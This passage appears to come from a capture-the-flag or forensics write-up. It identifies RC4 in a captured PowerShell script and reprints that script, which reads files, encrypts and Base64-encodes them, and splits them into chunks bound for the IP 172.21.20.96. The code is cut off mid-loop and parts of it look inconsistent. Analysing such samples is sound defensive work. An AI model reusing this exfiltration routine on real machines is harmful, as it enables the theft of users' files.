 
We identify the cypher as RC4 (the best explanation I found https://en.wikipedia.org/wiki/RC4 and we see similarities since the beginning) and see that the file is read and then converted to decimal form with the help of `$Enc.GetBytes([System.IO.File]::ReadAllBytes($_.FullName)); ` where ENC is `$Enc = [System.Text.Encoding]::ASCII;`. Then it is encrypted with the RC4 and sent in portions of 57 characters separated by '.' which in Wireshark will appear as 0x39 if you click on follow UDP stream. 

A better formated script will be:

```
$d="172.21.20.96"; $Parts_per_query=4; $Part_Size=57; Get-ChildItem "." 


| Foreach-Object {

$name=[System.Convert]::ToBase64String($Enc.GetBytes($_.Name));


$R={

$D,
$K=$Args;
$S=0..255;
0..255    | %{$J=($J+$S[$_]+$K[$_%$K.Length])%256;

$S[$_], $S[$J]=$S[$J] ,$S[$_]

};

$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]-$S[$H])%256]}



};



$Enc = [System.Text.Encoding]::ASCII;
$p = $Enc.GetBytes('[System.IO.File]::ReadAllBytes($_.FullName)');


 $FileContent = $Enc.GetBytes([System.IO.File]::ReadAllBytes("Desktop/donwload.dat")); 
 $u = (& $R $FileContent $p);
 $BaseString = [System.Convert]::ToBase64String($u);
 
 
 $Length=$BaseString.Length; 
 
 $EncryptedText="";
 $n=0;

 while ($Iterator -le ($Length/$Part_Size)) {

 $c=$Part_Size; 
 
 if (($Iterator*$Part_Size)+$c -gt $Length) {

 $c=$Length-($Iterator*$Part_Size) 
 
 };
 
 $EncryptedText+=$BaseString.Substring($Iterator*$Part_Size, $c) + ".";

 if (($Iterator%$Parts_per_query) -eq ($Parts_per_query-1))
```